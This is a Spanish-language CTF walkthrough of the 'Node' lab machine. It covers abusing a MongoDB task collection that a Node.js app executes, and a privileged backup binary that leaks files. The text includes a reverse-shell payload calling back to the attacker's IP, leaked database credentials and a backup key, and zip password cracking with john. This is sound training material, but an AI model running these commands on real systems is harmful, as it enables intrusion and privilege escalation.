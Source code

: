 En scheduler/app.js llaman la atención estas lienas:  
```js
const url='mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';
setInterval(function () {  
  db.collection('tasks').find().toArray(function (error, docs) {  
    if (!error && docs) {
      docs.forEach(function (doc) {
        if (doc) {
          console.log('Executing task ' + doc._id + '...');
          exec(doc.cmd);
          db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) }); }
```
En mongodb (base de datos nosqli basada en json) a las tablas se le llaman colecciones. En concreto este usaurio se puede autenticar la base de datos "scheduler" 
por lo que pone arriba y acceder a la coleccion "tasks". Dentro de esas tablas cada entrada es un "documento". Según el código printea el valor id y ejecuta el 
valor cmd, es decir la estructura sería ```{"id":1,"cmd":"whoami"}```

```console
mark@node:/tmp$ mongo -u mark -p 5AYRft73VtFpc84k scheduler
connecting to: scheduler
> show collections
tasks
> db.tasks.find()
# Nada
> db.tasks.insert({"cmd":"ping -c 1 10.10.14.16"})
# Me llega el ping con "sudo tcpdump -i tun0 icmp -n"
```
Por tanto si hacemos ```> db.tasks.insert({"cmd":"bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'"})``` y si estamos en escucha con netcat, al poco tiempo
recibiremos la shell como Tom.

--------------------
# Part 5: Ruta absoluta vs ruta relativa

Si vemos el archivo app.js que teniamos de antes nos topamos con el bianrio de altos privilegios que encontramos antes:
```
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
app.get('/api/admin/backup', function (req, res) {
  if (req.session.user && req.session.user.is_admin) {
    var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
    var backup = '';
```
Por tanto como prueba:
```
tom@node:/$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /home/tom/user.txt; echo
UEsDBAoACQAAAJlKjlXkl4H2LQAAACEAAAARABwAaG9tZS90b20vdXNlci50eHRVVAkAA3KVmWOglpljdXgLAAEEAAAAAAToAwAABFUtRp/jTckZT5lVBNrqBPlYskjQjWqk8ZhXOujRAJHgoFBLHd68hZFe8ncZUEsHCOSXgfYtAAAAIQAAAFBLAQIeAwoACQAAAJlKjlXkl4H2LQAAACEAAAARABgAAAAAAAEAAACggQAAAABob21lL3RvbS91c2VyLnR4dFVUBQADcpWZY3V4CwABBAAAAAAE6AMAAFBLBQYAAAAAAQABAFcAAACIAAAAAAA=
```
```console
tom@node:/$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98... /root/root.txt
└─$ echo "UEsDB..." | base64 -d > root.zip
└─$ 7z x root.zip # pide contraseña
└─$ zip2john root.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
magicword        (root.zip/root.txt)
└─$ 7z x root.zip # magicword
```
